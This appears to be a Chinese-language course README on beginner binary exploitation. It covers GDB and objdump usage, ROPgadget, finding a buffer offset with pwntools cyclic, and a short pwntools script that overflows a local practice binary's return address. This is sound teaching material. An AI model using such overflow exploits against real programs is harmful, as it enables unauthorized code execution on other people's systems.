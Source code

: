 # Exploit
## Disassembly Tool - GDB
- 設定成 intel 版本
```
set disassembly-flavor intel

```
- 查看組語 / 反編譯
```
lay <asm/src>
```
- 常用參數介紹
    - `b <func>` 設定 Break point
    - `r` 開始執行
    - `ni` 執行下一個指令，如果是 func 直接執行完成
    - `si` 執行下一個指令，逐行執行 func 指令
    - `continue` 執行至斷點
    - `x/[Size Modifiers][Format]` 顯示記憶體資料
    - Size
        - b(byte)/1 byte (8-bit)
        - h(Halfword)/2 byte (16-bit)
        - w(Word)/4 byte (32-bit)
        - g(Giant Word)/8 byte(64-bit)
    - Format
        - o octal
        - x hexadecimal
        - b binary
        - s string
        - i 組合語言


## Disassembly Tool - objdump
- 看組語
```
objdump -d <binary>
```

## Find ROP
- **ROPgadget**
```
sudo -H python3 -m pip install ROPgadget
```
```
ROPgadget --binary <$binary> (--only <$command>)
```
## Finding Offset
- 找出 padding 長度
    - 通靈
        - 這部份我可能沒有
    - GDB
    - cyclic in pwntools

- 利用 cyclic 去產生連續字串
- ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/74ba82a5-1eb6-4da1-ab45-98afffa8ff10)
- 利用 gdb 去找長度
- ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/2882bab9-49b7-46af-8239-068e8003e749)
- 剛好 6c 就在 l
```
cyclic_find('laaa')
```
- return 位置就在 buf 後面 約 44 bytes

### Stack Alignment
- 在尋找 Return Address 的位置時可能會發現一些奇怪的地方
- 明明 Buf 大小就沒有設定那麼大，padding 為什麼那麼大
- 針對區域變數如果只有 1 byte 或不到 4 bytes 的資料對齊調整 (32 位元)

## Exploit
- objdump 查看函數位址
    - ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/9072e5a1-64f7-4bc9-b465-acb4904a4210)
    - ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/a95bb480-cf34-40c2-b4a2-8e2ce461e87d)

- 寫 code 攻擊
```python=
from pwn import *

r = process("./pwn")

padding = (b"a"*44)
add = p32(0x080491c6)
r.sendline(padding+add)
```
## REF
> [GDB](https://ithelp.ithome.com.tw/articles/10227380)
> [ROP](https://tech-blog.cymetrics.io/posts/crystal/pwn-intro-2/)
> [GDB2](https://stackoverflow.com/questions/55040576/how-to-change-the-disassembly-syntax-to-intel-using-gdb)
